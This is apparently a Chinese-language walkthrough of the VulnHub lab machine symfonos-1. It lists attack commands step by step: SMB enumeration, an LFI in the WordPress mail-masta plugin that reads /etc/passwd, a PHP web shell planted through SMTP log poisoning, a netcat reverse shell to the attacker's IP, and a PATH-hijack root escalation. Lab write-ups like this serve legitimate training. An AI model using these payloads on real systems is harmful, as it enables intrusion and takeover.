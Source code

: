 # symfonos-1

## 环境

虚拟机平台：VMware Workstation Pro

攻击机：Kali（IP：192.168.253.136）

靶机：symfonos-1（IP：192.168.253.143）

下载：https://www.vulnhub.com/entry/symfonos-1,322/

## Let's go

```
nmap -A 192.168.253.143
```

![](./img/symfonos1-01.png)

```
enum4linux -a 192.168.253.143
```

![](./img/symfonos1-02.png)

![](./img/symfonos1-03.png)

> **扫描发现可以匿名登录，并得到 'helios'**

```
smbclient //192.168.253.143/anonymous
```

![](./img/symfonos1-04.png)

```
cat attention.txt
```

![](./img/symfonos1-05.png)

> **查看获取到三个密码  'epidioko'  'qwerty'  'baseball'**

```
#发现helios共享可以使用密码'qwerty'登录
smbclient //192.168.253.143/helios -U=helios
```

![](./img/symfonos1-06.png)

```
cat todo.txt
```

![](./img/symfonos1-07.png)

```
#发现是WordPress网站
http://192.168.253.143/h3l105/
```

![](./img/symfonos1-08.png)

> **将主机添加到/etc/hosts**

![](./img/symfonos1-09.png)

![](./img/symfonos1-10.png)

```
wpscan --url http://symfonos.local/h3l105/
```

![](./img/symfonos1-11.png)

```
https://www.exploit-db.com/exploits/40290
```

![](./img/symfonos1-12.png)

```
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

![](./img/symfonos1-13.png)

> **将一句话<?php system($_GET['cmd']); ?>写入SMTP日志，**

```
telnet 192.168.253.143 25
mail from:hello
rcpt to:helios
data
<?php system($_GET['cmd']); ?>
.
```

![](./img/symfonos1-14.png)

```
http://symfonos.local/h3l105/wp-content/plugins/mailmasta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=nc 192.168.253.136 4444 -e /bin/bash
nc -lp 4444
python -c 'import pty; pty.spawn("/bin/bash")'
```

![](./img/symfonos1-15.png)

```
find / -perm -u=s -type f 2>/dev/null
```

![](./img/symfonos1-16.png)

```
strings /opt/statuscheck
```

![](./img/symfonos1-17.png)

> **这里使用环境变量提权**

```
cd /tmp
echo "/bin/sh" > curl
chmod 777 curl
export PATH=/tmp:$PATH
```

![](./img/symfonos1-18.png)

```
/opt/statuscheck
cd /root
cat proof.txt
```

![](./img/symfonos1-19.png)